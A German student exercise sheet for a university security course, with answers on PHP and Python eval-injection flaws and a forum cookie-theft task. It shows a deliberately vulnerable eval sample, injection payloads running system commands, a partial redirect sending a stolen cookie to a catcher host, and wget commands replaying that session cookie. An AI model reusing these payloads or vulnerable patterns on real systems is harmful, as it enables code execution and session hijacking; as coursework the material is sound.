 ```yaml
---
title: "Reaktive Sicherheit"
subtitle: "Übungsblatt 6"
author: 
	- Balduin Binder [s6babind@uni-bonn.de]
	- Charlotte Mädler [s6chmaed@uni-bonn.de]
	- Bünyamin Sarikaya [s6busari@uni-bonn.de]
lang: de
output: pdf_file
---
```


# Aufgabe 1
  (1)Dynamic Evolution Verwundbarkeit: der Angreifer kontrolliert eine Zeichenkette, die als PHP-Script-Code
interpretiert wird.

  In PHP gibt es die Funktion eval(), die benutzt wird um ein String zu evaluieren. Ein Angreifer würde jetzt teile oder den ganzen String maniuplieren um den String zu kontrollieren. Zum Beispiel:
  
```
  <?php
  $name='Charly';
  $string=$_GET['arg'];
  eval("\$name=\"$string\";");
  ?>
```
  
  Wenn der Angreifer hier als Input für String 'noname; system("Is")' gibt, wird in der eval() Funktion Is aufgerufen und eine Liste der Dateien im Directory wird offengelegt. Unter umständen kann der Angreifer sensible Dateien sehen, löschen oder updaten.
  
  (2) Das Schutzziel der Verfügbarkeit (Möchliches Löschen von Daten), der Vertraulichkeit (Sichten von sensiblen Daten) und der Integrität (Datenmanipulation) werden verletzt. Man könnte auch sagen, dass indirekt die Zurechenbarkeit verletzt wird (Aktion vom Opfer oder vom Angreifer ausgeführt?). 
  
  (3) Flask ist ein lightweight web application framework (eine Software, die für die Entwicklung von dynamischen Webseiten, Webanwendungen oder Webservices ausgelegt ist). Dieses Programm soll eine Rechenoperation ausführen bzw. Ausgeben, die vom Nutzer eingegeben wird (also ähnlich wie ein Taschenrechner). Der User gibt also seine Rechnung ein (in Python), drückt Submit und es wird ihm das Ergbnis ausgerechnet. 
  
  (4) In Flask gibt es die Dynamic Evolution Verwundbarkeit, da Flask unteranderem die Funktion eval() nutzt. 
  
 (5)Eval() wird benutzt um einen einzigen, dynamisch genereierten Python-Ausdruck zu evaluieren. Exec wird zum ausführen dynamisch generirten Python codes genutzt.
  
Eval kann also nur ein einziges Argument entgegen nehmen, exec ein code block (loops, class, def, etc.) Eval gibt einen Wert zurück, exec gibt immer None zurück. In python 3 ist exec eine Funktion, die keine Auswirkung auf den compilierten Bytecode der Funktion hat wo exec angewendet wird. 
  
  (6)_ import _('os').system('gedit')
  
  # Aufgabe 3
  GET('data') kann als erweiterung zum übergeben von Daten genutzt werden. Hier bei werden diese in $cookie gespeichert:
  ```
  if(isset($_GET['data']))$cookie=$_GET['data'] 
  ```
  (Falls Cookie gesetzt, Daten übermitteln)
  Ein im Forum angemeldeter Nutzer hat die Möglichkeit in Beiträgen Code einzubetten, um Beispielsweise als angreifer zu versuchen die Einlogdaten anderer Nutzer rauszufinden.
  Hierfür müsste das login-cookie ausgelesen werden und als GET übermittelt werden (Redirect an Catcher-Virutal Host), 
  Irgendwas mit location.replace("http://192.168.178.63/catcher?data=   ????
  
  um dann schließlich mit wget ausgelesen/verwendet werden:
  
  ```
  wget --no-cookies --header "Cookie: sid=..." http://192.168.178.104/forum
  ```
  Um ein Beitrag zu schreiben:
  ```
  wget --no-cookies --header "Cookie: sid=..." --post- data "Text=Nachricht" http://192.168.178.104/forum/post.php
  ```
  
